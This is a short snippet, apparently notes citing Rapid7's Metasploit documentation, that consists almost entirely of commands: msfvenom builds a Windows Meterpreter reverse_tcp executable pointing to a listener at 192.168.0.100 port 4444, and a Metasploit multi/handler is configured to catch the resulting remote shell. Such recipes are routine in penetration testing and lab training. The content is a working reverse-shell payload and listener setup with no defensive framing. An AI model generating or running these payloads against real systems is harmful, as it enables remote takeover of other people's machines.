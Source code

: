 https://docs.rapid7.com/metasploit/use-meterpreter-locally-without-an-exploit/  

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 --format=exe > mtr_payload.exe  

> msf> use exploit/multi/handler  

> msf> set payload windows/meterpreter/reverse_tcp  
> msf> set lhost eth0  
> msf> set lport 4444  
> msf> set ExitOnSession false  
> msf> exploit -j  

---

